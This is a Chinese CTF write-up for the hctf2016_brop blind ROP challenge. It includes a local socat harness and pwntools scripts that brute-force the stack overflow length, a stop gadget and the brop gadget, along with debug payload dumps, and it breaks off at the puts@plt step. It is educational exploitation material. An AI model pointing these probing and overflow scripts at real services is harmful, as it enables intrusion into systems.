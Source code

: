 # hctf2016_brop
## brop
HCTF2016 的出题人失踪了

没有提供二进制

本地搭建环境，写个脚本跑起来
```
#!/bin/sh
while true; do
        num=`ps -ef | grep "socat" | grep -v "grep" | wc -l`
        if [ $num -lt 5 ]; then
                socat tcp4-listen:10001,reuseaddr,fork exec:./brop &
        fi
done
```

思路总结：

1、确定栈溢出长度

2、找到stop gardget

3、找到brop gardget

4、找到puts@plt

5、dump程序，找到puts@got

6、找到libc版本，然后正常rop套路

### 确定栈溢出长度

```python
from pwn import *

def get_buffer_size():
    i = 0
    while True:
        i += 1
        try:
            p = remote('127.0.0.1', 10001)
            p.readuntil('password?\n')
            p.send('A' * i)
            p.recv()
            p.close()
        except EOFError:
            p.close()
            return i - 1

print get_buffer_size()
```
得到长度72

## 找到stop gardget
```python
buffer_size = 72

def get_stop_gardget(buffer_size):
    addr = 0x400000
    while True:
        try:
            p = remote('127.0.0.1', 10001)
            p.readuntil('password?\n')
            payload = 'A' * buffer_size + p64(addr)
            p.send(payload)
            p.recv()
            p.close()
            print 'stop gardget @ {:#x}'.format(addr)
            return addr
        except EOFError:
            p.close()
            addr += 1

addr = get_stop_gardget(buffer_size)
```
stop gardget @ 0x4005c0

## 找到brop gardget
probe, trap, trap, trap, trap, trap, trap, stop, traps
我们可以通过这样的布局来找到弹出 6 个栈变量的 gadget，也就是与 brop gadget 相似的 gadget。
之所以要在每个布局的后面都放上 trap，是为了能够识别出，当我们的 probe 处对应的地址执行的指令跳过了 stop，程序立马崩溃的行为。

需要注意的是 probe 可能是一个 stop gadget，我们得去检查一下，怎么检查呢？我们只需要让后面所有的内容变为 trap 地址即可。因为如果是 stop gadget 的话，程序会正常执行，否则就会崩溃。看起来似乎很有意思.


```python
stop_gardget = 0x4005c0

def get_brop_garget(buffer_size, stop_gardget):
    addr = 0x400000 - 1
    while True:
        addr += 1
        try:
            p = remote('127.0.0.1', 10001)
            p.readuntil('password?\n')
            payload = 'A' * buffer_size + p64(addr) + p64(0) * 6 + p64(stop_gardget) + p64(0) * 10
            p.send(payload)
            data = p.recv()
            p.close()
            if 'WelCome' in data:
                # check
                try:
                    p = remote('127.0.0.1', 10001)
                    p.readuntil('password?\n')
                    payload = 'A' * buffer_size + p64(addr) + p64(0) * 10
                    p.send(payload)
                    data = p.recv()
                    p.close()
                except EOFError:
                    p.close()
                    print 'brop gardget @ {:#x}'.format(addr)
                    return addr
        except EOFError:
            p.close()
            
get_brop_garget(buffer_size, stop_gardget)
```
会卡住：然后设置从0x400701开始继续，如果卡住再新增，最后设置成从0x400738开始可以跑出
```
[DEBUG] Sent 0xd8 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  00 07 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000080  c0 05 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00000090  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000d0  00 00 00 00  00 00 00 00                            │····│····│
    000000d8

```
```python
def get_brop_garget(buffer_size, stop_gardget):
    addr = 0x400738 - 1
    ... ... 同上
```
```
brop gardget @ 0x4007ba
```

## 找到puts@plt
